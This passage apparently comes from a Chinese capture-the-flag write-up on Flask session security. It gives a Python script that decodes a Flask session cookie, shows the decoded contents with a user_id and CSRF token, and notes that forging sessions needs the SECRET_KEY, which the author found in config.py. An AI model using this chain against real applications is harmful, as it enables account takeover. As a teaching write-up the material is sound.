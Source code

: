 看这里

> https://xz.aliyun.com/t/3569
>  https://www.leavesongs.com/PENETRATION/client-session-security.html#

利用脚本对session解密

```python
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                         'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))
```

![image-20210405170729762](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210405170729.png)

```txt
{'_fresh': True, '_id': b'420a195b52c07df404e28072b89758895ca01185760c22d745175edb853a77ea123b74a65378b17c91b8f6a37ae36f7676e9fe538cec749e27f21cbf817499b2', 'csrf_token': b'652716e9a324978495e477639e80431b9437b185', 'image': b'iBC6', 'name': '123456', 'user_id': '10'}
```



但是如果我们想要加密伪造生成自己想要的session还需要知道SECRET_KEY，然后我们在config.py里发现了SECRET_KEY
